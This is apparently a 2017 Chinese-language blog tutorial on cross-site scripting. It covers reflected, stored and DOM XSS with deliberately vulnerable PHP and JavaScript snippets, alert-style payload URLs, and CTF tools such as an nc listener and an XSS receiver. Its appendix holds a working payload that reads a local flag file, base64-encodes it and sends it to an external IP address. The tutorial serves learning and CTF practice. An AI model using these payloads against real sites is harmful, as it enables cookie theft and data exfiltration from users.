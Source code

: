 ```yaml
---
title: xss简介
date: 2017-09-21 16:24:13
categories: web
tags: xss
---
```


自从xss被发现之后，OWASP上经常会出现它的身影。一开始xss作为一种攻击方式，应用并不算广。但是随着漏洞利用的深入钻研，安全研究者们逐渐发现xss的危害，特别是在用户授权与管理方面。

国内外各大web安全检测厂商，已经在其产品中加入了xss检查、过滤等功能。

### 1、XSS原理

JavaScript可以用来获取用户的Cookie、改变网页内容、URL跳转。于是，我们就可以从存在XSS漏洞的网站中，盗取用户Cookie、黑掉页面、导航到恶意网站。

通常使用<script src="http://www.secbug.org/x.txt"></script>方式来加载外部脚本，而在x.txt中就存放着攻击者的恶意JavaScript代码，这段代码可能是用来盗取用户的Cookie，也可能是监控键盘记录等恶意行为。

备注：JavaScript加载外部的代码文件可以是任意扩展名(无扩展名也可以)

### 2、XSS类型

#### 2.1 反射型XSS

反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接。

```php
<?php  
     username = _GET['username'];  
     echo $username;  
?>  
 
利用样例：
http://www.secbug.org/xss.php?username=<script>alert(/xss/)</script>
```

#### 2.2 存储型XSS

存储型XSS又被称为持久性XSS，存储型XSS是最危险的一种跨站脚本。

存储型XSS被服务器端接收并存储，当用户访问该网页时，这段XSS代码被读出来响应给浏览器。

反射型XSS与DOM型XSS都必须依靠用户手动去触发，而存储型XSS却不需要。

测试步骤如下，以留言板为例：

（1）添加正常的留言，使用Firebug快速寻找显示标签

（2）判断内容输出（显示）的地方是在标签内还是在标签属性内，或者在其他地方。如果显示区域不在HTML属性内，则可以直接使用xss代码注入。如果在属性内，需要先闭合标签再写入xss代码。如果不能得知内容输出的具体位置，则可以使用模糊测试方案。

（3）在插入xss payload代码后，重新加载留言页面，xss代码被浏览器执行。

#### 2.3 DOM XSS

DOM的全称为Document Object Model，即文档对象模型。

基于DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

```php
<script>  
var temp = document.URL;//获取URL  
var index = document.URL.indexOf("content=")+4;  
var par = temp.substring(index);  
document.write(decodeURI(par));//输入获取内容  
</script>  

利用样例：
http://www.secbug.org/dom.html?content=<script>alert(/xss/)</script>
```

这种利用也需要受害者点击链接来触发，DOM型XSS是前端代码中存在了漏洞，而反射型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### 3、利用工具

#### 3.1 xss接收工具

谈到xss的利用工具，这里不得不提到火日大神，其在github上的工具[https://github.com/firesunCN/BlueLotus_XSSReceiver](https://github.com/firesunCN/BlueLotus_XSSReceiver)

这个工具是ctf中xss应用的经典工具



**另外一个工具就是nc**

```shell
$ nc -l -p 8080
GET /1.jpg HTTP/1.1
Host: 10.254.20.127:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh,zh-CN;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

```

当外界请求http://10.254.20.127:8080/1.jpg的时候，就会出现上面的信息。

#### 3.2 xss检测工具

xss检测工具很多，现在xsser、xssf

说真的，两个检测工具不怎么好用，还不如手工呢！

另外就是xssor，可以访问

[https://github.com/evilcos/xssor2](https://github.com/evilcos/xssor2)

[http://xssor.io/](http://xssor.io/)

### 4、附录

xss一般请求方式

```
?evilcode=<script><img src="http://xxxx/xss.jpg"/></script>
```

```
?evalcode=<script>var xmlhttp= new XMLHttpRequest();xmlhttp.open("GET","file:///var/www/html/flag.php",true);xmlhttp.onload = function () {content = btoa(xmlhttp.responseText);window.location.href="http://118.190.78.155:8080/index.php?a="%2bcontent;};xmlhttp.send(null);</script>
```

btoa("str")   ===>  base64加密字符串

atob("ABSCRF==")    ===>  base64解密字符串